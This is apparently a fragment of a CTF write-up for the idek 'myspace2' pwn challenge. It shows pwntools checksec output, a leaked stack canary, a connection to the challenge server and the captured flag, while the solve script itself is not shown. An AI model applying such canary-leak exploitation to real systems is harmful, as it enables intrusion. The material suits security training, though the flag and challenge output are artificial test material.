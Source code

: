yay

```
[*] '/home/shuban/Code/py_workspace/ctf/idek/pwn/attachments/myspace2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
[+] Starting local process './myspace2': pid 13557
[+] Opening connection to myspace2.chal.idek.team on port 1337: Done
canary: 0xa9a39f5714d96d00
/home/shuban/Code/py_workspace/ctf/idek/pwn/attachments/sol.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("2")
/home/shuban/Code/py_workspace/ctf/idek/pwn/attachments/sol.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("7")
[*] Switching to interactive mode

Friend updated.

1. See Top Friends
2. Edit Friend
3. Display Friend
4. Quit
>> 
idek{b4bys_1st_c00k1e_leak_yayyy!}
```

fladg